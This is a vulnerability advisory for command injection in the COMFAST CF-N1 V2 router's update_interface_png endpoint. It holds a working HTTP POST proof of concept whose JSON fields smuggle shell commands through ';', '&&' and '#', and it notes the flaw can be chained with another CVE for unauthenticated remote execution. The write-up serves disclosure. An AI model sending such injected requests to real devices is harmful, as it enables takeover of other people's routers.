 # COMFAST CF-N1 V2 V2.6.0 Command Injection in `update_interface_png`

PS:

1.Setting up the environment using tools like qemu may be difficult; it is recommended to purchase a physical device.

2.This vulnerability can be combined with CVE-2022-45724 to achieve unauthenticated RCE.

## Overview

A command injection vulnerability exists in the COMFAST CF-N1 V2 (firmware V2.6.0) within the `update_interface_png` API (`/usr/bin/webmgnt`, function `sub_41C000`). Attackers can inject arbitrary commands via the `interface` and `display_name` parameters, enabling unauthorized execution of system commands, access to sensitive information, or full compromise of the device.



![PoC Result: Command Execution Evidence](./imgs/0.png)

## Details



*   **Vendor**: COMFAST

*   **Vendor Website**: [http://www.comfast.cn/](http://www.comfast.cn/)

*   **Product**: COMFAST CF-N1 V2

*   **Firmware**: V2.6.0

*   **Firmware Download**: [http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772](http://www.comfast.com.cn/index.php?m=content\&c=index\&a=show\&catid=31\&id=772)

*   **Endpoint**: `/cgi-bin/mbox-config?method=SET&section=update_interface_png`

*   **Vulnerability**: Command Injection

*   **CVE ID**: CVE-2025-9584

*   **Impact**: Execute arbitrary system commands, read sensitive files, or take full control of the device.

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

### Description

The vulnerability resides in the `sub_41C000` function responsible for handling the `update_interface_png` configuration. Disassembly analysis reveals that user-controlled parameters (`interface` and `display_name`) are unsanitized and directly incorporated into a system command via `sprintf_0`, which is then executed using `system_0`.

Key code flow:



1.  User input is parsed via `blobmsg_parse_0`, extracting parameters including `interface` and `display_name`.

2.  These parameters are inserted into a command string using `sprintf_0` with the template `&aSSSSLdSSS` (likely a command for updating interface images, e.g., involving `ld` or file operations).

3.  The constructed command is executed via `system_0` without input validation, allowing attackers to inject arbitrary commands using delimiters like `;`, `&&`, or `#`.

This lack of sanitization enables attackers to break out of the intended command structure and execute malicious code.



![Vulnerable Code Snippet](./imgs/1.png)



![Command Injection Flow](./imgs/2.png)

## Proof of Concept (PoC)

### PoC: Inject Commands via `interface` and `display_name`



```
POST /cgi-bin/mbox-config?method=SET&section=update_interface_png  HTTP/1.1
Host: cflogin.cn
Content-Length: 82
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.90 Safari/537.36
Content-Type: appliation/json
Origin: http://cflogin.cn
Referer: http://cflogin.cn/guide/guide_router.html
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: COMFAST_SESSIONID=c0a800a0-ffffffc40f08ffffffaaffffff82fffffff0-6b8b4567
Connection: close

{"interface":"; echo update > /www-comfast/test.txt #","display_name":"&& echo 1"}
```



*   **Notes**: The `interface` parameter uses `;` to terminate the original command and inject `echo update`, while `display_name` uses `&&` to chain an additional `echo 1` command. The `#` comments out remaining syntax to avoid errors.

*   **Steps**:

1.  Send the POST request using tools like Burp Suite or `curl`.

2.  Access `http://cflogin.cn/test.txt` to verify execution of the injected command.

*   **Result**: The file `/www-comfast/test.txt` is created with the content "update", confirming successful command injection.

![PoC Execution Result](./imgs/3.png)

